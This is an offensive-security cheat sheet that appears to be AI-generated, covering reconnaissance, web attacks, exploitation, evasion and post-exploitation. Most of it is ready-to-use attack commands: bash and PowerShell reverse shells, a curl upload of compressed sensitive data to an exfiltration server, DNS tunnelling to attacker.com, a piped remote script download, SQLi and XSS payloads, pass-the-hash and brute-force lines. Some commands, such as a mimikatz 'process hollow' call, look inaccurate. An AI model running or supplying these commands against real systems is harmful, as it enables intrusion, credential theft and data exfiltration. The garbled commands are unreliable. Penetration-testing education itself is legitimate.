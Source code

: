 # **The Ultimate Cybersecurity Master Cheat Sheet**  
*Everything you need for penetration testing, red teaming, and security assessments in one place*  

---

## **🌐 Network Reconnaissance & Scanning**
### **Basic Scanning**
```bash
# Quick scan with service detection
nmap -sV -T4 10.0.0.1 -oN quick_scan.txt

# Full port scan with script scanning
nmap -p- -sV -sC -O -T4 10.0.0.1 -oA full_scan
```

### **Advanced Enumeration**
```bash
# DNS Enumeration
dnsenum --enum example.com
dig any example.com @8.8.8.8 +short

# SMB/NETBIOS Enumeration
nbtscan 10.0.0.1/24
enum4linux -a 10.0.0.1 | tee enum4linux.log
```

### **Stealth Scanning**
```bash
# Fragmented packet scan
nmap -f -sS -T2 10.0.0.1

# Idle scan using zombie host
nmap -sI zombie_ip:port target_ip
```

---

## **🔓 Web Application Attacks**
### **Directory Bruteforcing**
```bash
# Fast recursive scan
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html -t 50

# Vhost discovery
ffuf -u https://target.com -H "Host: FUZZ.target.com" -w subdomains.txt -fs 4242
```

### **SQL Injection**
```bash
# Automated testing
sqlmap -u "https://target.com?id=1" --batch --level=5 --risk=3 --dbs

# Time-based blind SQLi test
' AND (SELECT COUNT(*) FROM GENERATE_SERIES(1,10000000)) --
```

### **XSS & SSRF**
```javascript
// Basic XSS
<script>alert(document.domain)</script>

// Advanced SSRF
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

---

## **💻 System Exploitation**
### **Reverse Shells**
```bash
# Bash (Linux)
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1

# PowerShell (Windows)
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### **Privilege Escalation**
```bash
# Linux (Automated)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Windows (Manual Checks)
whoami /priv
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

---

## **🔑 Password Attacks**
### **Hash Cracking**
```bash
# Basic wordlist attack
hashcat -m 1000 ntlm_hashes.txt rockyou.txt -r rules/best64.rule

# Advanced mask attack
hashcat -m 2500 wifi.hccapx -a 3 ?d?d?d?d?d?d?d?d -w 3
```

### **Online Attacks**
```bash
# HTTP Form Bruteforce
hydra -L users.txt -P passwords.txt target.com http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid credentials" -t 30 -w 3
```

---

## **🛡️ Defense Evasion**
### **AV/EDR Bypass**
```powershell
# Obfuscated PowerShell
Invoke-Obfuscation -ScriptPath .\script.ps1 -Command 'Token\All\1'

# Process Hollowing
mimikatz.exe "process::hollow /process:explorer.exe /path:C:\temp\malware.exe"
```

### **C2 Communication**
```bash
# DNS Tunneling
dnscat2 --dns domain=attacker.com --secret=MySecretKey

# Domain Fronting
curl https://cdn.target.com --resolve cdn.target.com:443:REAL_IP -H "Host: cdn.target.com"
```

---

## **📊 Post-Exploitation**
### **Lateral Movement**
```bash
# Pass-the-Hash
crackmapexec smb 10.0.0.1/24 -u administrator -H NTLM_HASH --local-auth

# RDP Hijacking
tscon 2 /dest:rdp-tcp#0 /password:password
```

### **Data Exfiltration**
```bash
# File Compression & Exfil
tar -czf data.tar.gz /sensitive_data/
curl -X POST -F "file=@data.tar.gz" https://exfil.server/upload
```

---

## **🛠️ Essential Tools Reference**
| Category | Tools | Usage Example |
|----------|-------|--------------|
| **Scanning** | Nmap, Masscan | `masscan -p1-65535 10.0.0.1 --rate=1000` |
| **Exploitation** | Metasploit, Cobalt Strike | `msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue"` |
| **PrivEsc** | WinPEAS, LinPEAS | `./linpeas.sh -a > linpeas.log` |
| **Cracking** | Hashcat, John | `john --format=NT hashes.txt --wordlist=rockyou.txt` |
| **C2** | Sliver, Covenant | `sliver> generate --http 10.0.0.1 --os windows` |

---

## **💎 Elite Techniques**
1. **Cloud Security**:  
   - AWS S3 Bucket Enumeration: `aws s3 ls s3://bucket-name --no-sign-request`  
   - Azure Storage SAS Token Abuse  

2. **Active Directory**:  
   - Kerberoasting: `GetUserSPNs.py -request -dc-ip DC_IP domain/user`  
   - Golden Ticket Attacks  

3. **Physical Security**:  
   - BadUSB Attacks with Rubber Ducky  
   - Lockpicking for Physical Penetration Tests  

---

## **📚 Learning Path**
- **Beginner**: TryHackMe, Hack The Box  
- **Intermediate**: Offensive Security PEN-200 (OSCP)  
- **Advanced**: SANS SEC760 (Advanced Exploitation)  
- **Expert**: Zero-Point Security CRTO (Red Team Ops)  

---

## **⚠️ Responsible Disclosure**
1. Always get **written permission**  
2. Document **every action**  
3. Respect **privacy and laws**  
4. Report vulnerabilities **responsibly**  

---

**🔐 Pro Tip**: Bookmark this page and update it regularly with your own findings!  

This is the **most comprehensive** cheat sheet combining the best elements from all previous versions with new advanced techniques. It's designed to be your **go-to reference** during security assessments.  

Would you like me to add any specific advanced techniques or focus areas?
